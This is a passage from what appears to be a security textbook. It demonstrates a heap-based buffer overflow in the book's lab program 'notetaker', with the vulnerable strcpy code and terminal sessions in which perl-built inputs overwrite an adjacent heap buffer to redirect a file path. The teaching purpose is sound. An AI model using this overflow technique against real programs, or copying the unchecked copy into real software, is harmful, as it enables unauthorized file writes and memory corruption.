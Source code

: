 # *__A Basic Heap-Based Overflow__*

The _notetaker_ program from Chapter 2 is also susceptible to a buffer overflow vulnerability. Two buffers are allocated on the heap, and the first command-line argument is copied into the first buffer. An overflow can occur here.

__Excerpt from notetaker.c__

```c
    buffer = (char*) ec_malloc(100);
    datafile = (char*) ec_malloc(20);
    strcpy(datafile, "/var/notes");

    if (argc < 2)                 // If there aren't command-line arguments,
        usage(argv[0], datafile); // display usage message and exit.

    //////////// VULNERABLE LINE ////////////
    strcpy(buffer, argv[1]);      // Copy into buffer.
    //////////// VULNERABLE LINE ////////////

    printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
    printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);
```

Under normal conditions, the buffer allocation is located at _0x804a008_, which is before the __datafile__ allocation at _0x804a070_, as the debugging output shows. The distance between these two addresses is _104_ bytes.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./notetaker test
[DEBUG] buffer @ 0x804a008: 'test'
[DEBUG] datafile @ 0x804a070: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0x804a070 - 0x804a008
$1 = 104
(gdb) quit
reader@hacking:~/booksrc $
</pre>

Since the first buffer is null terminated, the maximum amount of data that can be put into this buffer without overflowing into the next should be _104_ bytes.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./notetaker $(perl -e 'print "A"x104')
[DEBUG] buffer @ 0x804a008: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] datafile @ 0x804a070: ''
[!!] Fatal Error in main() while opening file: No such file or directory
reader@hacking:~/booksrc $
</pre>

As predicted, when _104_ bytes are tried, the null-termination byte overflows into the beginning of the __datafile__ buffer. This causes the __datafile__ to be nothing but a single null byte, which obviously cannot be opened as a file. But what if the __datafile__ buffer is overwritten with something more than just a null byte?

<pre style="color: white;">
reader@hacking:~/booksrc $ ./notetaker $(perl -e 'print "A"x104 . "testfile"')
[DEBUG] buffer @ 0x804a008: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtestfile'
[DEBUG] datafile @ 0x804a070: 'testfile'
[DEBUG] file descriptor is 3
Note has been saved.
*** glibc detected *** ./notetaker: free(): invalid next size (normal): 0x0804a008 ***
======= Backtrace: =========
/lib/tls/i686/cmov/libc.so.6[0xb7f017cd]
/lib/tls/i686/cmov/libc.so.6(cfree+0x90)[0xb7f04e30]
./notetaker[0x8048916]
/lib/tls/i686/cmov/libc.so.6(__libc_start_main+0xdc)[0xb7eafebc]
./notetaker[0x8048511]
======= Memory map: ========
08048000-08049000 r-xp 00000000 00:0f 44384     /cow/home/reader/booksrc/notetaker
08049000-0804a000 rw-p 00000000 00:0f 44384     /cow/home/reader/booksrc/notetaker
0804a000-0806b000 rw-p 0804a000 00:00 0         [heap]
b7d00000-b7d21000 rw-p b7d00000 00:00 0
b7d21000-b7e00000 ---p b7d21000 00:00 0
b7e83000-b7e8e000 r-xp 00000000 07:00 15444     /rofs/lib/libgcc_s.so.1
b7e8e000-b7e8f000 rw-p 0000a000 07:00 15444     /rofs/lib/libgcc_s.so.1
b7e99000-b7e9a000 rw-p b7e99000 00:00 0
b7e9a000-b7fd5000 r-xp 00000000 07:00 15795     /rofs/lib/tls/i686/cmov/libc-2.5.so
b7fd5000-b7fd6000 r--p 0013b000 07:00 15795     /rofs/lib/tls/i686/cmov/libc-2.5.so
b7fd6000-b7fd8000 rw-p 0013c000 07:00 15795     /rofs/lib/tls/i686/cmov/libc-2.5.so
b7fd8000-b7fdb000 rw-p b7fd8000 00:00 0
b7fe4000-b7fe7000 rw-p b7fe4000 00:00 0
b7fe7000-b8000000 r-xp 00000000 07:00 15421     /rofs/lib/ld-2.5.so
b8000000-b8002000 rw-p 00019000 07:00 15421     /rofs/lib/ld-2.5.so
bffeb000-c0000000 rw-p bffeb000 00:00 0         [stack]
ffffe000-fffff000 r-xp 00000000 00:00 0         [vdso]
Aborted
reader@hacking:~/booksrc $
</pre>


